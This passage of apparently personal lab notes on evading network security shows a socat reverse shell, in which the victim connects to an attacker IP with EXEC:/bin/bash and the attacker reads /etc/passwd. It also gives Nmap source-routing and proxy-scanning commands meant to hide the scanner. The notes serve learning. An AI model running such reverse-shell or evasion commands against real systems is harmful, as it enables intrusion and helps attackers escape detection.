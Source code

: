 This is the view when displaying the contents of `/etc/passwd` while in encrypted in Wireshark:

![[Network Security Solutions-2.png|550]]

Without encryption:

1. On the attacker’s system, we run `socat -d -d TCP-LISTEN:4443,fork STDOUT`.
2. On the victim’s machine, we run `socat TCP:10.20.30.129:4443 EXEC:/bin/bash`.
3. Back on the attacker’s system, we type `cat /etc/passwd` and hit Enter/Return.

![[Network Security Solutions-3.png|550]]
## Evasion via Route Manipulation
---

### Relying on Source Routing
---
Normally, when you send packets, the **network decides the route** (each router chooses the next hop)

With **source routing**, you (the sender) tell the network exactly which path the packets should take.

- **Loose routing (`L`)** - You specify a few hops, but routers can choose others in between.

```C
--ip-options "L 10.10.10.50 10.10.50.250"
```

- **Strict routing (`S`)** - You must specify _every hop_.

```C
--ip-options "S 10.10.10.1 10.10.20.2 10.10.30.3"
```
    
Nmap can do this with `--ip-options`. It’s rarely used today because most networks **block source-routed packets** (security risk).

### Proxy Servers
---
Instead of sending packets directly to the target, you send them through **proxy servers** first to hide your real source.

```C
nmap -sS --proxies HTTP://proxy1:8080,SOCKS4://proxy2:4153 10.201.23.130
```

Its important to **note** that proxy must be running, reachable and supports relaying TCP connections.
## Evasion via Tactical DOS
---
An IDS/IPS requires a high processing power as the number of rules grows and the network traffic volume increases.
